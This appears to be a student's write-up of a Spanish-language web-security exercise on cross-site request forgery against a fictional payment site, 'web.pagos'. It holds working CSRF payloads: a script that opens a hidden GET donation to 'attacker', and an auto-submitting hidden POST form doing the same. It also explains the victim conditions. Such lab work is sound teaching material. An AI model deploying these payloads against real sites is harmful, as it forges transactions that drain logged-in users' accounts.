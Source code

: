 ```Options -Indexes```

```
<script>window.open("http://web.pagos/donate.php?amount=100&receiver=attacker", "_blank", "height=1, width=1, status=yes, toolbar=no, menubar=no, location=no, addressbar=no, top=1, left=1");</script>
```
![](imghe/13.png)

El problema es que los navegadores hoy en día bloquean este tipo de comportamiento:

![](imghe/14.png)

**c) Pero 'web.pagos' sólo gestiona pagos y donaciones entre usuarios registrados, puesto que, evidentemente, le tiene que restar los 100€ a la cuenta de algún usuario para poder añadirlos a nuestra cuenta.**
**Explicad qué condición se tendrá que cumplir por que se efectúen las donaciones de los usuarios que visualicen el mensaje del apartado anterior o hagan click en el botón del apartado a).**

Pues para que esto funcione el usuario que sea víctima del ataque tiene que tener cookies de inicio de sesiín el la página web.pagos, estando registrados, y deberán tener el saldo de 100€ para permitir la donación.


**d) Si 'web.pagos' modifica la página 'donate.php' para que reciba los parámetros a través de POST, quedaría blindada contra este tipo de ataques? En caso negativo, preparad un mensaje que realice un ataque equivalente al de la apartado b) enviando los parámetros “amount” i “receiver” por POST.**

Modificar la página 'donate.php' para recibir los parámetros a través de POST en lugar de GET no sería suficiente para protegerla completamente contra ataques CSRF (Cross-Site Request Forgery). Aunque el cambio a POST dificultaría la explotación de la vulnerabilidad por parte de un atacante, aún existen formas de llevar a cabo ataques CSRF utilizando formularios o peticiones AJAX. En este caso ocultariamos un formulario con los valores pre-cargados y cuando un usuario abra la página se enviará usando un método POST hacia web.pagos, donando así los 100€.

El ataque se podría hacer con un código parecido a este:

```php
<form id="csrf-form" action="http://web.pagos/donate.php" method="POST">
    <input type="hidden" name="amount" value="100">
    <input type="hidden" name="receiver" value="attacker">
    <input type="submit" value="Hacer donación">
</form>
<script>
    // Enviamos el formulario automáticamente al cargar la página
    document.getElementById('csrf-form').submit();
</script>

```
